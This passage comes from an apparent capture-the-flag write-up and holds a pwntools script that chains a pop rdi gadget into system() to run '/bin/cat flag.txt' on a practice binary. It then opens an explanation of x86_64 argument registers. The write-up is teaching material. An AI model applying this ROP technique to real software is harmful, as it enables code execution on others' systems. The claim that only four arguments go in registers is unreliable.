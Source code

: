 
This stack overwrite causes the pwnme function to return to the pop rdi instruction. The location of the "/bin/cat flag.txt" string is then placed into the rdi register. The program then returns to the system call location and prints the flag.

```python
#!/usr/bin/python3

from pwn import *

io = process('./split')
# The amount to fill the buffer
junk = b'A' * 0x20
# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
pop_rdi = p64(0x004007c3)

# The address of the "/bin/cat flag.txt"
addr_of_command = p64(0x00601060)

call_system = p64(0x00400560)
back_junk = b"B" * 20

payload = junk + new_bp + pop_rdi  + addr_of_command +  call_system
payload += back_junk

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")
print(io.clean(0.5).decode("utf-8"))
io.send(payload)
print(io.clean(0.5).decode("utf-8"))
input("exploit sent hit enter to end")
sleep(1)
```

## Challenge 3

With the first real ROP challenge completed, let's start getting into some of the fun stuff. While unintended gadgets are super fun to play with, it's also super useful to be able to call intended functions and that is what this challenge deals with. 

Before we go into the challenge, let's take a quick look at how function arguments are passed from caller to callie which is actually system dependent. In x86_64, both the stack and the registers are used, but in practice it's really just the registers. The first 4 arguments are placed in registers, then the rest are pushed onto the stack before the call.

| 64-bit register | 32-bit sub-register | 16-bit sub-register | 8-bit sub-register | Notes               |
| --------------- | ------------------- | ------------------- | ------------------ | ------------------- |
| %rcx            | %ecx                | %cx                 | %cl                | Counter & 4th arg   |
| %rdx            | %edx                | %dx                 | %dl                | 3rd arg             |
| %rsi            | %esi                | %si                 | %sil               | 2nd arg             |
| %rdi            | %edi                | %di                 | %dil               | 1st call argument |
